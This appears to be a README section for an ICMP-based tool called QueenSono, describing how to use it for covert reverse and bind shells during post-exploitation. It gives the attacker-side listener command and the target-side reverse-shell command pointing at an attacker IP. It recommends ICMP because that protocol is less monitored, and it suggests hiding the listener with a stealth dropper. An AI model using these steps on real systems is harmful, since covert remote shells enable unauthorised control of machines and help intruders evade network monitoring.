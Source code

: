 # Hack

Some fun things using `QueenSono`

## Reverse Shell
<h5 align="center">In <code>QueenSono/hack/reverse-shell</code></h5>

<p align="center"><i> It a "reverse shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** if ICMP is less monitored than other protocol (eg TCP), having a reverse shell trough `QueenSono` is more more stealthy.

#### How to do it
*> On the attacker machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the target machine:* Provide the reverse shell
```
./reverse-shell.sh <ip_attacker> <ip_listening_for_icmp>
```


### Bindshell

Sometimes, and for the ***post exploitation*** phase it is more suited, you need a bind shell. That is to say the `listener` will be on the "compromised" machine and the attacker machine will "bind" to this shell.

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*
